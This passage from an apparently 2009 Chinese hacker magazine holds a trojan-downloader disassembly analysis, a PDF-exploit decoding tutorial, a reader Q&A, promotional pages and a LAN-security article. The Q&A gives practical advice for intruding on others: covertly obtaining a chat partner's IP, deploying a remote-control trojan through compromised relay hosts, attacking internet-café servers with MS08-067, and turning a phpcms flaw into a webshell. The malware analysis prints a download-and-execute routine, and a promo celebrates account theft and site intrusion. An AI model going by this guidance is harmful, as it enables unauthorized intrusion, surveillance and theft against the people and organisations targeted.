004013CB  |. 83EC 0C        sub esp, 0C

0040140E  |. 891C24         mov dword ptr [esp], ebx
00401411  |. E8 0A060000    call <imp.&KERNEL32.VirtualAllocEx>
VirtualAllocEx  /// 申请内存空间
00401416  |. 83EC 14        sub esp, 14

0040143C  |. E8 EF050000    call <jmp.&KERNEL32.WriteProcessMemory>
WriteProcessMemory  /// 写入进程内存
00401441  |. 83EC 14        sub esp, 14

00401496  |. 891C24         mov dword ptr [esp], ebx
00401499  |. E8 B2050000    call <jmp.&KERNEL32.CreateRemoteThread>
CreateRemoteThread  /// 创建远程线程
0040149E  |. 83EC 1C        sub esp, 1C

004014BE  |. E8 1D050000    call <jmp.&KERNEL32.CloseHandle>
CloseHandle  /// 关闭句柄

004014DC  |. E8 8F050000    call <jmp.&KERNEL32.VirtualFreeEx>
VirtualFreeEx  /// 释放内存
```

一些不怎么重要的代码被我省略了，如果你想看到完整的代码，我认为自己进去代码里面看一遍，效果会更好。这部分代码就是将 down.ocx 注入到 IE 进程去，这个主程序的代码到这里已经是完成使命了。还记得图 1 的 URL 地址吗？我们是不是没看到它出现过呢？我猜想猫腻就出在 down.ocx 文件上，所以我们还需要对这个文件分析一遍。

将它丢进 OD 后，慢慢走了一遍，发现 `610C1026 |. E8 B3050000 call 610C15DE` 这个 call 就是关键性的地方了，重点就是分析这里，进去看到代码如下：

```asm
610C15E8  |. 75 37          jnz short 610C1621
610C15EA  |. C74424 14 000> mov dword ptr [esp+14], 0
610C15F2  |. C74424 10 000> mov dword ptr [esp+10], 0
610C15FA  |. C74424 0C 000> mov dword ptr [esp+C], 0
610C1602  |. C74424 08 C0> mov dword ptr [esp+8], 610C11C0
```

```asm
610C160A  |. C74424 04 000> mov dword ptr [esp+4], 0
610C1612  |. C70424 000000> mov dword ptr [esp], 0
610C1619  |. E8 D2020000    call <jmp.&KERNEL32.CreateThread>
CreateThread
```

这段代码是创建一个线程来达到目的，地址 610C11C0 就是这个线程开始的地方，相关代码如下：

```asm
610C11D1  |. BE 0030C061    mov esi, 610C3000 ; [ASCII] "Mozilla/5.0 (compatible; MSIE 6.0)"
610C1203  |. BA 0031C061    mov edx, 610C3100 ; [ASCII] "http://www.host.com/server.exe"
610C1208  |. BB 80000000    mov eax, 80
610C1223  |. BE 8031C061    mov esi, 610C3180 ; [ASCII] "server.exe"
```

记得图 1 的 URL 内容吧？在这里可以清楚地看到了，要下载的就是这个东西。

```asm
610C1228  |. BB 40000000    mov eax, 40
610C1293  |. 8D85 18FEFFFF  lea eax, dword ptr [ebp-1E8]
610C1299  |. C74424 04 CB3> mov dword ptr [esp+4], 610C31CB ; [ASCII] "win"
610C12A1  |. 890424         mov dword ptr [esp], eax
610C12A4  |. E8 B7050000    call <jmp.&msvcrt.stricmp>
stricmp
610C12BE  |. E8 AD050000    call <jmp.&KERNEL32.GetWindowsDirectoryA>
GetWindowsDirectoryA
610C12E4  |. C74424 04 D13> mov dword ptr [esp+4], 610C31D1 ; [ASCII] "sys"
610C12EC  |. 890424         mov dword ptr [esp], eax
610C12EF  |. E8 6C050000    call <jmp.&msvcrt.stricmp>
stricmp
610C1309  |. E8 72050000    call <jmp.&KERNEL32.GetSystemDirectoryA>
GetSystemDirectoryA
610C130E  |. 83EC 08        sub esp, 8
610C132F  |. C74424 04 D53> mov dword ptr [esp+4], 610C31D5 ; [ASCII] "tmp"
610C1337  |. 890424         mov dword ptr [esp], eax
610C133A  |. E8 21050000    call <jmp.&msvcrt.stricmp>
stricmp
610C133F  |. 85C0           test eax, eax
610C1341  |. 75 19          jnz short 610C135C
610C1343  |. 8D85 F8FBFFFF  lea eax, dword ptr [ebp-708]
610C1349  |. 894424 04      mov dword ptr [esp+4], eax
610C134D  |. C70424 041000> mov dword ptr [esp], 104
610C1354  |. E8 37050000    call <jmp.&KERNEL32.GetTempPathA>
GetTempPathA
```

这里就是判断下载后的文件存放到哪里，它会根据你在 Download file to 的选择而存放到哪里。

```asm
610C1359  |. 83EC 08        sub esp, 8
610C139D  |. E8 8E020000    call <jmp.&WININET.InternetOpenA>
610C13B8  |. E8 60020000    call <jmp.&WININET.InternetSetOptionA>
610C1416  |. E8 35020000    call <jmp.&WININET.InternetOpenUrlA>
610C146B  |. E8 F3010000    call <jmp.&WININET.HttpQueryInfoA>
610C14C2  |. E8 D9030000    call <jmp.&KERNEL32.CreateFileA>
CreateFileA
610C14EE  |. E8 8D030000    call <jmp.&KERNEL32.SetFileAttributesA>
SetFileAttributesA
610C14F3  |. 83EC 08        sub esp, 8
610C1524  |. E8 47010000    call <jmp.&WININET.InternetReadFile>
``````asm
610C155B  |.  E8 6D030000   call    <jmp.&KERNEL32.WriteFile>
; WriteFile
610C156E  |.  E8 5D030000   call    <jmp.&KERNEL32.CloseHandle>
; CloseHandle
610C1598  |.  C74424 04 D93>mov     dword ptr [esp+4], 610C3FD9
; ASCII "open"
610C15A0  |.  C70424 000000>mov     dword ptr [esp], 0
610C15A7  |.  E8 54030000   call    <jmp.&SHELL32.ShellExecuteA>
; ShellExecuteA
610C15AC  |.  83EC 18       sub     esp, 18
610C15DB  |.  E8 03030000   call    <jmp.&KERNEL32.ExitThread>
; ExitThread
```

## 一般都有什么功能？

- 1. 先指定 URL 下载路径。
- 2. 下载的文件存放到哪里。
- 3. 是否加壳处理。
- 4. 通过注入已进程来达到下载的目的。

一个最最最简单的下载者的功能大概就是如此，要自己再编写这么一个东西看来并不是十分困难，所以我们也可以试着按照这个下载者的思路模拟出一个自己编写的东西，那么用着的时候是不是觉得更好一点呢？

> 【本文涉及的相关程序已收录在光盘中】

## 编辑点评：

这个下载者实在不怎么强，但是功能强大的下载者也是从基础的东西一步一步演变过来的，所以没有前人的脚印，就没有后人的福荫，所谓前人种树，后人乘凉，这并不是一句空话，也不是不可能实现的东西。有些朋友还是比较喜欢研究下载者一类的东西，所以本期选取一篇，希望对大家有帮助。

这段代码就是访问网络，打开 URL，下载指定文件，然后设置文件隐藏属性后执行这个文件，最后通过 ExitThread 函数退出线程。

分析到这里，我们可以完整地看到这个下载者的内部执行过程，假如你编程能力强的话，还可以将源代码重现出来，这个我就没能力了。最后我们可以通过这个下载者来看看下载者程序一般都有什么功能？

## PDF Exploit 解密

从本文你可以学到：  
脚本的解密方法

今天浏览网页时拦截了一个样本，下载回来发现是一个 PDF 文件，用文本编辑器打开后发现里边是一串奇特的字符，如图 1。原来这是一个 PDF Exploit（Adobe Reader 8.1.1 版本以下），数据采用了 Zlib 压缩方式，在漏洞的电脑上运行后会执行一段代码来远程下载另外一个文件。那我们就来挖掘出要下载的文件地址吧！


首先是对 Zlib 的解压缩，这里我们用到 HTMLDecoder 这款解密工具。我们在**选项“执行”这一栏选择“A>PDF/CWS/Zlib Extractor”**，如图 2。

点击“开始”后来到了 PDF Explorer 界面，“地址栏”中填写上文件地址，在右下方“输入文件类型”处选择上“PDF”，“缓存大小”默认即可。点击“加载（PDF）”后就会自动读取文件内容，如图 3。


文件找到了两段数据流，这里只有第二个对我们有用（即 LengthB=3683 的数据段），选中后点击“解压”，在右栏就会显示出解压后的数据，解压出来的数据是 Base64 形式（常见的用于传输 8Bit 字节代码的编码方式之一）加密的，如图 4。下面请出另一解密工具 Malzilla，复制 Base64 加密数据到“Misc Decoders”选项里，点击下边的“Decode Base64”就会完成解密，如图 5。

这个函数还是加密了的，我们复制整个函数来到“Decoder”栏，点击“Run Script”按钮（对于网马来说，无论怎么加密，最终都要浏览器解析的。Malzilla 运用这个原理来拦截拟运行后的结果。），Malzilla 弹出这个函数的运行结果。双击“eval 结果”，在下栏会给出解密结果，如图 6。

在这里我们看到了一个熟悉的字符串“Unescape”（JAVASCRIPT 里的解密函数），那我们复制 Unescape 的这段字符串（%U 那一串）到图 5 中的“Misc Decoders”栏，点击“UCS2 To Hex”先转化成 16 进制，如图 7。

然后将这段 16 进制字符串以“Paste as Hex”的形式粘贴到顶部右边“Hex”栏，得出下载地址，如图 8。

我们这样就得到了下载地址了，有兴趣的朋友可以继续对远程下载的文件进行分析。

总结：本文关键的是 Zlib 解压部分，恰巧 HTMLDecoder 有这功能，于是写出来与朋友们共享。文章若有不对的地方请高手指正，偶的论坛 id：lastrequest，希望与大家交流。

> 【本文涉及的相关程序已收录在光盘中】

## 编辑点评：

本文主要是介绍 PDF Exploit 解密的方法，PDF Exploit 是一种恶意的文档，也就是相当于一个病毒。关于 PDF Exploit 的解密方法，教程还是比较少见的，所以这一期选取一篇给各位读者补补基础。


## Q&A


邮箱：QA_nohack@126.com  
主持人：徐硕侃

Q：怎样通过 QQ 知道对方 IP？以前可以用彩虹 QQ，但是现在被腾讯屏蔽掉了，还有其它方式吗？

A：突破腾讯屏蔽彩虹的方法有几种，具体的方法可以参考一下网络上的解答，我就不再赘述了。至于其它方法，现在有一个工作小组开发了款叫“赛博 QQ”的第三方 QQ 外挂，相比一些其它类似的显 IP 工具来说，很好地支持了 QQ2009，这个软件也是基于彩虹的原理开发的，所以在回复具体 IP 地址上要受发送图片探测，并且会出现无法获取的情况。网上还有一种利用 netstat 命令获知的方法，前提是把对方骗到“QQ 二人世界”，这个就得看具体情况了。前不久发现一个方法，就是在网页中加入一段统计的代码，然后诱使对方访问这个地址。其实，每种方法都有各自的优劣点，关键是你如何拓展思路进行利用。

原文链接：http://www.nohack.cn/bbs/thread-91995-1-1.html

Q：最近我在学习弄鸽子，我是内网，教程看了很多，可是内网解决方法表面可行的也就是这几种：

- 1、进路由做端口映射。这种方法是要有路由权限，可是我们学校明显不能让我们知道这些。以前我也曾试着破解密码，可是没有结果，原因是我们学校弄的是交换机+路由的方法上网。尽管有款软件是不过路由做端口映射，可是也是不能做到的，这个我亲自实验过。
- 2、让外网的朋友开放个 9999 端口，可是这种方法太不实际，也很不合适，毕竟长期在别人电脑上开个端口，可能会心理上不好受。
- 3、用 3322+苹果茶解析上线。这种方法可以说是好办法，可是现在苹果茶不提供注册啦！
- 4、用服务器或者稳定点的肉鸡上线。这个我不知道怎么弄，目前内网还没办法出来，这样的高技能手段肯定是难以实现……菜啊！

这几种方法是我自己看过教程总结的，希望前辈能在空闲时帮忙指点一下。在这里道谢了（我们学校用的是校园宽带，就是一栋楼接公用几个交换机）。

A：其实关于内网中使用远控软件的方法，在杂志、论坛中已经多次出现，之所以再次把作者的提案刊登，是欣赏作者的这种提问模式。作者把自己总结的方法很好地呈现在提问中，既提供给别人思路，也说明对学习和提问精神的一种参考。

就问题而言，第一种方法实现的可能性很小，毕竟是校园网环境。第二种提到的 9999 端口一般是肉鸡用来做转发的端口，不妨可以用扫描软件试探扫描这个端口的外网 PC，然后利用现成的肉鸡做转发。而第三种情况，相关的内网建站软件其实是有很多的，而作者提到的苹果茶，现在好像开放了注册。第四种是我个人认为最危险和最实用的，以现有技术投入包一台服务器并不是难事，并且保护内网的手段也很丰富，利用服务器做转发的确是长久之计。最后我还是表扬一下问题的作者，提问也是学问，就看读者朋友如何去体会了。

原文链接：http://www.nohack.cn/bbs/thread-91988-1-1.html

Q：请问一下如何在局域网中提升权限来访问别的计算机？我在网吧的网络邻居里就没有权限，如何解决呢？谢谢！

A：局域网入侵首先考虑的是利用 WMI，结合空口令进行连接，不过相对于网吧来说，整套系统比较安全。在网吧中取得最高管理权限最好是入侵网吧的服务器，也就是管理机。如果网吧的电影服务器等开设了 WEB，那么可以考虑从 Web 出发进行入侵提权，而最简单的方法就是利用爆出的远程溢出进行攻击。例如去年流行的 ms08-067，就可以在网吧这样的环境中大显神威了。当然，如果就整个局域网环境来说，没有权限访问对方的电脑，并不取决于自身的环境，而是对方有没有开启共享或者默认的服务。

原文链接：http://www.nohack.cn/bbs/thread-91885-1-1.html

Q：我最近下载了 P2P 终结者，可是权限太低，怎样提高自己的权限呢？请各位高手帮忙指点一下！

A：你可以在 www.gougou.com 搜索“P2P 终结者 去广告 爆破权限”进行查询，应该能看到很多匹配项目，注意对比一下文件的大小，下载后进行病毒查询。最简单的方法是直接上传到 http://www.virustotal.com/zh-cn/ 进行多引擎杀毒扫描，确认无毒后一般即是公开的破解版。其实 P2P 终结者 4.0 后期的版本并没有 3.0 企业破解版好用，特别是运用在一些无线路由器上，建议你可以下载一个 3.0 的企业破解版，经过测试是绝无病毒捆绑的。下载页面为：http://www.3800hk.com/Soft/zhly/20110.html

原文链接：http://www.nohack.cn/bbs/thread-91958-1-1.html

Q：通过“phpcms2008 下载漏洞利用工具”下载对方网站的 config.inc.php 文件，从开头就发现如下信息：

```php
<?php
// 数据库配置信息
define('DB_HOST', 'localhost'); // 数据库服务器地址
define('DB_USER', 'sq_gx****'); // 数据库账号
define('DB_PW', 'q*****18'); // 数据库密码
define('DB_NAME', 'sq_gx****'); // 数据库名
define('DB_PRE', 'phpcms_'); // 数据库表前缀，同一数据库安装多套 PhpCms 时，请修改表前缀
define('DB_CHARSET', 'gbk'); // 数据库字符集
define('DB_PCONNECT', 0); // 0 或 1，是否使用持久连接
define('DB_DATABASE', 'mysql'); // 数据库类型
```

但无论用 SQLTools 还是 SuperSQLEXEC 都出现“连接失败”的提示，不知道为什么？

A：你采取连接的两款工具都是针对 MSSQL 开发的，而 PHPCMS 作为 PHP 脚本程序，结合的是 MySQL 数据库。连接 MySQL 数据库的 GUI 软件有很多，例如牛族的 GMySQL 和 mysqlhack 都可以很傻瓜化地远程操作 MySQL 数据库。而现在的 MySQL 数据库一般连接用户名是 localhost，只允许本机连接，所以你远程连接不上。下载对方的数据库配置文件，如果结合 phpmyadmin 倒是可以利用命令导出一个 webshell，但是作为 phpcms 的这款 exploit，可以爆出 log 文件里显示的管理员后台密码，进入后台是可以直接生成 webshell 的。

原文链接：http://www.nohack.cn/bbs/thread-90892-1-1.html

4 月临近了初夏，已经能感受到“热情”了，商店里的促销活动很吸引人啊，当然，我是指除了物品以外的东西，呵呵……熙熙攘攘的人群在街道来来往往，看久了眼睛就很疲劳，看来当黑客可真不容易。你问我这与黑客有什么关系？我只提两个字：社——工。不明白？训练眼睛和思维的反应速度是黑客非常需要的社工技能，不妨看看本期光盘中的电影吧。

## 建议选摘

**名字：** 桃子  
**职业：** 学生  
**建议：** 希望别老把目录弄成黑色的！我经常需要对目录中的经典文章进行标记，弄成黑色的目录，我还要用修正液来标记，麻烦哦。关于专题，我希望多看到一些关于入侵网站的文章，尤其是哪种适合菜菜的。

**名字：** 陈如意  
**职业：** 学生  
**建议：** 希望多一些关于“破解”的话题，多发布关于“Delphi”的基础编程知识。

**黑编：** “桃子”读者阅读手册很认真啊！对于经典文章就应该标记，然后不断地学习新技术来感谢文章中的方法。另外，也可以“左右手互搏”，攻防演练能不断提高自己的水平。关于破解，是很有意思的一个话题，手册上每个月的“破资源”看来还满足不了你。

基地读者啊，呵呵，Delphi 深受一些聪明的程序员喜爱，而其属于中高级编程的工具也慢慢在普及开来，手册中已经多次出现关于 Delphi 的基础编程，错过了就赶快邮购哦！

## 关于光盘

**名字：** 朱崇明  
**职业：** 学生  
**建议：** 我第一次接触到《黑客手册》，第一次被庞大的光盘吓到！也第一次被这么大的光盘卡住机器，连光盘都读取不了！我的天！

**名字：** 艾力帕提  
**职业：** 学生  
**建议：** 光盘蛮好的，加上电影感觉很完美，不过电影好像是纯英文的，我看起来较吃力，要是可能的话，麻烦电影搞英文+汉文字幕，那样效果更好。还有，黑客工具不够多，浪费了 DVD 的资源！工具对于黑客来说是较重要的，可能的话，工具尽量放多点。

**一头暴汗的光盘编辑：** 感谢读者们对于本刊的支持，来自新疆的这位读者，难道你没有发现电影是有外挂字幕的吗？细心点，多找找哦。一般有问题，就去 Google 或 Baidu，学会搜索和自我解决问题可是黑客的基础技巧哦。在 2009 年开始，光盘提升容量，希望能够以全方位的角度来阐述黑客，我们不应该只停留在电脑前，也许该到社会实践一番。


## 非卖品

## DVD 非安全

## 黑客手册


- 详细讲解无线 WEP 加密破解三步曲
- 无线攻击技巧系列之一
- 比 VMware 功能使用
- PCMCIA 无线网卡
- 窗口网 A 到 Z 之三
- 经典 IP 电话监听类软件利用
- 起回放弹力道靶枪模拟显示
- 同门与敌
- 下流也可以 DIY 与 XPE
- 破译“黑匣子”
- 利用旧手机追踪定位
- Linux 入侵
- 《黑名单透视记》
- Union 注入技巧
- 《黑客布局》试读
- 数据包切肉原理（五）
- 无线路由系统原理（三）

36 连载：我和《非安全·黑客手册》第二次亲密接触

DVD 典藏版合一书

HOST 修改、花都别墅抓捕现场解析、代码语句和大型网站注入、90ASP 源代码、ASP 在线数据库管理、XBT3 完全管理工具、bc3 完整 final、ISO 镜像、EZHOST 最新漏洞修补包、SA 综合利用程序、Pangolin3UDP 最新双比特、SQL 综合利用速查、文件捆绑器、Webshell 后门加入器 v1.2、固件刷机管理工具、KeyMakePro、kernel.exe 木马用户提权工具、黑刀根文件夹深度管理器 1.0 Beta2、阶段截获项目、ptest 工具 1.0、经典 The Net 2.0 等。


## 我和《非安全·黑客手册》第一次的亲密接触


**黑人领袖马丁·路德·金**

黑人领袖马丁·路德·金说：  
“我有一个梦想。”  
他的梦想是让人人生而平等，让世界更加和平。


**Linux 创始人 Linus Torvalds**

Linux 创始人 Linus Torvalds 说：  
“我也有一个梦想。”  
他的梦想是让软件远离商业，更加自由地使用。

作为一个普通人的你是否也有自己的梦想？！  
作为一个菜鸟的你是否也有自己的黑客梦？！  
还记得自己第一次盗取别人账号时的心情吗？  
还记得自己第一次入侵别人网站时的紧张吗？  
还记得自己第一次进入别人电脑时的兴奋吗？  
当然，你是否还记得自己是如何进入黑客世界的吗？

如果我有一个支点，我就可以撬起地球。  
我找到了那个支点了吗？没有。  
所以，很遗憾，我仍然没有撬起地球。

如果我有一双翅膀，我就可以展翅翱翔。  
我有翅膀吗？没有。  
所以，很可惜，我仍然不能随梦想翱翔。

如果我能得到一本武林秘籍，我就可以惩恶扬善，独步武林。  
我能得到这样一本武林秘籍吗？……能！  
所以，是的，它就是《黑客手册》。

《非安全》（昵称：黑手，原名：黑客手册，网址：http://www.nohack.cn）是国内新兴的一本网络安全杂志，2005 年 4 月创刊，今年四岁。从小“黑手”就得到广大读者朋友的关注和关爱，它也给大家带来了快乐和知识。所以今天，我们决定举办一个 party，邀请江湖各路朋友来讲述“我与《非安全》第一次的亲密接触”，认识更多的朋友。在这里，没有人在意你是否有漂亮的外表、蹩脚的家庭和糟糕的演讲技巧，每个人都是平等的，我们都期待你的参与……

参加资格：年满四周岁以上的江湖各路朋友

Party 时间：2009 年 5 月 1 日——2009 年 9 月 1 日

Party 内容分为三部分：

### （1）我与“黑手”第一次的亲密接触

写出你和“黑手”的故事和大家一起分享，题材不限，诗歌、散文、小说、小品文、杂文等形式均可，征文篇幅字数不少于 30 个字，多则不限，但必须是原创作品。我们会筛选出 20 篇至 50 篇优秀的文章分别刊登在黑手上，让你的第一次变成大家的第一次。

### （2）我参与设计的《黑客手册》

不论你在江湖中的职业是什么，不论你会什么，只要你有自信、有梦想、有快乐，都可以来参与“黑手”的设计。“黑手”杂志的封面、光盘的封面、海报、壁纸、漫画、月历都有可能采用你的设计，如果在你心中，“黑手”有不一样的面容内涵，你也可以把你的创意喷出来。

### （3）我与“黑手”的第一次合影

找出你珍藏的最老的一本《非安全·黑客手册》杂志来合影吧！搬出你珍藏的全部《黑客手册》杂志来合影吧！摆出你最 High 的 POSE 与《黑客手册》合张影吧！我们将筛选出最老的《黑客手册》读者、最忠实的《黑客手册》读者、最具人气的《黑客手册》读者三个奖项，均有超级神秘大礼相送哦。最具人气的《黑客手册》读者将在论坛进行全民投票公选。

凡参加以上活动的朋友均可发送投稿邮件到 nohack@21cn.com。

## 新闻时评

### 虚拟产业的安全问题

自从网络这个虚拟平台越来越多地应用到人们的生活中，虚拟产业便逐渐发展起来了。不说别的，大家最在意的利益团体——银行，也开辟了网上虚拟营业厅，使大家足不出户便可以完成一些资金操作。另外，像一些缴费购物及游戏娱乐等，都可以在网上进行，而一些大的服务商还推出了虚拟货币，大家最熟悉的肯定莫过于 Q 币了。这样，我们把你在网络上注册的各种服务及获得的虚拟物品理解为你的虚拟财产，而提供和推出这些虚拟物品的服务商便是虚拟产业者。

**虚拟财产也可以被理解为虚拟物品，即无实物性质，通过数字或字符等方式存在的商品，像大家常见的 QQ 号、网游账号、游戏中的装备道具等，都属于虚拟物品。**

很多人不明白，这些仅仅是用于一般应用的东西，不能吃不能穿，连摸都摸不着，还有价值？大家可不要小看这些虚拟物品，它们产生的经济价值便要远远超乎人们的想象，我们就拿最火的网络游戏来简单说明下吧。

现在的许多网游都是免费运营模式，网络游戏运营商主要靠的就是贩卖游戏中的虚拟物品，即通过贩卖游戏道具进行盈利。说到贩卖游戏中的虚拟物品，恐怕没人会比史玉柱更加强谙此道，《征途》就是靠虚拟交易起家的。

在《征途》这款网游中，有钱的玩家甚至可以随意用人民币来打造极品装备，投入数万元砸顶级装备的玩家早已司空见惯。如果你在《征途》中看到某玩家身穿 150+ 满十星的顶级套装，胯下骑着十属性的坐骑，那么这位玩家的虚拟财产身价至少在 10 万人民币左右！

眼红不？心动不？这些摸不着的东西价值就是这么高！真
```

是：小游戏，大财富！除了网游，再说说 QQ。“上网不用 Q，绝对没朋友！”，这是某友的 QQ 签名，可见现在上网的朋友没有不知道 QQ 的。

QQ 从最初的单纯网络聊天工具发展成现在的应用+娱乐组合，也只才十年而已，而现在，QQ 已经拥有上亿用户，而虚拟产业涉及的范围也越来越广，并推出了许多增值服务，也发展了自己的虚拟货币——Q 币。

使用 Q 币可以使 QQ 用户更加“美化”自己，并拥有更多功能。在利益的驱使下，针对 QQ 的盗号、偷币、刷钻等问题接踵而至，虚拟物品的交易异常活跃。可以说，在 QQ 蓬勃发展的过程中，似乎在安全方面并没有主动跟上，总是在大家不断地研究 QQ，并通过技巧技术占了 QQ 的便宜后，官方才把漏洞补上，以至于有的网友调侃道：“世界上唯一能与 Windows‘特性’相媲美的就只有 QQ 了。”

说完 QQ，谈谈黑客们所需要的网页空间，那也是虚拟产业的一部分，由虚拟主机来提供存放环境。最近，在国内的虚拟主机商中应用比较广泛的 HZHOST 虚拟主机管理系统爆出了严重的 SQL 注入漏洞，遭受到了不同攻击，使得购买空间的站点订单损失不小。据小道消息，这次针对 HZHOST 的攻击，貌似是因为站点的备案问题，许多空间商态度恶劣，不站在站长角度去处理问题而导致的一次冲突。

总的来说，保护好自己在网上的资料及虚拟物品是很重要的事情，也希望网络服务提供商能够在自身安全性方面多下功夫。虚拟产业是个很笼统的概念，是很庞大的一块蛋糕，未来网络的发展将推动这个产业的价值成长。如果你对虚拟产业还是很模糊，我提供一些最好理解的关键词吧：投资方面的股票、域名，网游方面的各种装备、虚拟货币等，网上注册的邮箱、空间及在一些站所拥有的消费特权等。

> 安全寄语：
> 人在世，安全第一！作为“黑手”在走过 4 个春秋之后新推出的一个栏目，更是把安全放到了第一位。这个栏目就是以安全为中心，为大家提供任何与安全相关的知识。也希望广大读者朋友们踊跃投稿，把自己如何建立和突破安全防御的思路及技巧介绍给大家，共同在攻击与防御之间不断提升自己系统及程序的安全性。

## 局域网安全点点滴滴

图守龙

- 1、了解维护通道
- 2、相关病毒预防的技巧

### 一、维护通道的应用

何为维护通道呢？可能有些人没有听说过吧？所谓的维护通道，从概念上来说是为自己将来对下面的客户机在还原保护的基础上留下一道后门，权限在你手上，你可以远程调用某些东西来实现自己的目的，比如最常用的是批处理。因为在你实行调用的时候要从客户和服务两端进行，所以首先你要在两者之间架起一个通道，也就是维护通道。

维护通道的引入使得管理员维护局域网非常方便，例如开机之后批量执行相应的程序，开机之后同步时间、同步文件等等。既然维护通道这么方便，我们首先来学习一下如何建立维护通道。

这里我们用 vbs 写的维护通道作为例子演示一下，代码如下（运行在客户机上）：

```vbscript
On Error Resume Next    '容错语句
Dim oShell
Set oShell = WScript.CreateObject("WScript.Shell")
WScript.Sleep 10000     '定义延时执行时间，5000 大概就是 5 秒
oShell.Run "\\gameserver\SOFTWARE\START.exe"    '定义执行文件路径
```

将上面的代码保存为 vbs 文件即可，10000 是指定延时启动时间为多少，这个时间按照自己需求定吧。如果延时启动时间太短，有时候可能执行不成功，这种情况就要修改下延时时间了，建议设置在 5000 到 10000 之间，`\\gameserver\\SOFTWARE\\START.exe` 为指定执行程序的路径。

小提示：执行服务器上的共享文件时要注意一点，就是服务器要记得开 Guest 来宾访问，经常有很多朋友执行文件不成功就是因为这个缘故。

接着需要将这个 vbs 脚本文件加入到启动项，实现开机执行此文件。写入启动项我们用批处理实现吧，代码如下：

```bat
@echo off
echo REGEDIT4>x.reg
echo.
echo [HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run]>>x.reg
echo "boot"="C:\windows\system32\boot.vbs">>x.reg
regedit /s x.reg
del x.reg
```

将上面的代码保存为 boot.bat 文件，运行之后就可以添加一个名为 boot 的启动项了，如图 1 所示。


我们上面设置 boot.vbs 是执行 `\\gameserver\\SOFTWARE\\START.exe` 文件的，其中 start.exe 文件里面包含了很多个命令，因为在维护的时候往往需要执行多个命令才能够满足需求。

现在看看 start.exe 的设置吧，它是维护通道组成的一个重要部分，这个程序是我在网上收集回来的，感觉比较好用，当然你们也可以自己写批处理实现运行多个程序。

start.exe 的配置文件为 deer.ini，设置界面如图 2 所示。上面给大家介绍了维护通道的应用，下面会用到的。


### 二、对流行病毒的防御

作为一个合格的网管，要不断关注安全跟病毒方面的动态，这样才能确保公司的网络安全、资料安全。下面给大家介绍一下我的防御方法。

- 1. 屏蔽恶意网站

屏蔽恶意网站有助于防止网页木马跟网络钓鱼，这里可以修改 Hosts 表屏蔽不良网站。

> 小知识：Hosts 表文件是一个没有扩展名的文件，但是它属于文本文件格式，你可以使用记事本程序对其进行编辑。Hosts 表文件中存放的是一些常用的网站主机域名和其对应的 IP 地址。

当我们在使用浏览器浏览一个网站时，在地址栏中输入网站的域名并回车后，系统必须通过某种渠道将这个域名转换为其对应的 IP 地址，这项工作通常是由 DNS（域名解析服务器）服务器来完成。但是在系统将域名交给 DNS 服务器处理之前，总是先检查本地的 Hosts 表文件，看其中是否已经记录有相应的域名与 IP 地址的对应关系，如果有就会直接采用，因而会节约大量时间。


正因为这个原因，假如 Hosts 表文件中的某个域名与 IP 地址产生了错误的对应，当你在浏览器中输入这个域名试图打开其对应的网页时，就会出现打不开的情况，而那些没有映射错，或是没有在 Hosts 表中有相应记录的网站则可以正常地打开。这就是为什么自己的电脑有些网址不能打开，而在其它电脑中可以顺利地打开的原因之所在，很多恶意程序经常会有这样的恶作剧。

Hosts 表文件在系统中的位置如下：

- Windows 9X 系统将其存放在 `C:\Windows` 目录；
- Windows NT/2000 系统将其保存在 `C:\WINNT\system32\drivers\etc` 目录；
- Windows XP 系统将其保存在 `C:\Windows\system32\drivers\etc` 目录。

我们在相应系统中找到 Hosts 表文件后用记事本打开，其内容一般如图 3。

大家可以看到第一行有一个 # 号，它是注释符，跟它后面的就是注释，等同于批处理里面的 REM。好了，再看看下面的 `127.0.0.1 06.jacai.com`，这里的意思是将 `06.jacai.com` 这个网站指向 `127.0.0.1`，从而使该网站无法正常解析，导致无法访问。


知道原理之后，我们就要收集恶意网站了，如果靠自己收集肯定很麻烦，这里我为大家写了一个小程序，方便大家添加恶意网站，如图 4。这个小软件提供更新下载 Hosts 表功能，也可以对 Hosts 表进行操作，还能提示今天它更新的哦！


如果你发现自己无法访问安全站点，很有可能是被病毒修改了 Hosts 表，只需要用这个软件重置一下并保存就行了！如果是网吧用户或者是大型局域网用户，可以做一个自解压文件，然后通过维护通道修改。

- 2. 屏蔽恶意程序

说到屏蔽恶意程序，大家务必会想到 IEFO 劫持了，《黑客手册》已经有很多文章提到过，这里就给大家复习一下这个知识吧！其实个人感觉这个东西对付病毒很管用。

> 小知识：所谓 IEFO，其实是 Image File Execution Options 的缩写，就是个注册表项：`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options`。

如果你运行 QQ.EXE 之后发现打开的是 CMD.EXE，这个时候你就要注意了，可能是中了 IEFO 劫持的病毒。这个技术被很多病毒利用来禁止杀毒软件运行，我们来看看病毒怎么实现的。

打开注册表展开 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options` 项，然后添加一个名为 QQ.EXE 的项，如图 5。

选上 QQ.EXE 这个项，默认右边是空白的，我们点击右键，新建个“字符串”，然后改名为 “Debugger”，确定后再双击该键，修改数据值为 `C:\windows\system32\CMD.exe`，如图 6。接着运行 QQ.EXE，结果就弹出 CMD 了，如图 7。


图 8 关闭自动播放


图 9 修改数据

特别是网吧客户机的病毒程序的运行。假如要一个个地添加病毒执行文件，估计会累到很多人，呵呵，其实我们可以用批处理实现批量添加，请看如下代码：

```bat
rem 禁止运行病毒程序
echo.
set route=HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options

echo.
echo                 正在进行免疫操作，请稍候...
:: 下一句中的“赤龙免疫%%i”可以替换成任意的字符，都能起到全盘禁止运行指定 exe 的效果
for /f %%i in (list.ini) do (
  reg add "%route%\%%i" /v Debugger /t REG_SZ /d 赤龙免疫%%i /f >nul 2>nul
)
```

把上面代码保存为 BAT 文件即可，你还需要建立一个 list.ini 文件，在里面输入你想禁止的程序名称就可以了（注意是一行一个名称）。至于怎么收集病毒进程名，大家可以去金山论坛、360 论坛、微点论坛看看，如果是网吧用户，只需要把这个项导出，再利用维护通道导入到客户机即可！

- 3、“强奸”U 盘病毒

题目有点强悍，大家不要见怪，因为对于 U 盘病毒，我想应该可以用上述这个词的。一般网吧、学校或公司用 U 盘比较多，所以往往会导致很多电脑被感染病毒。

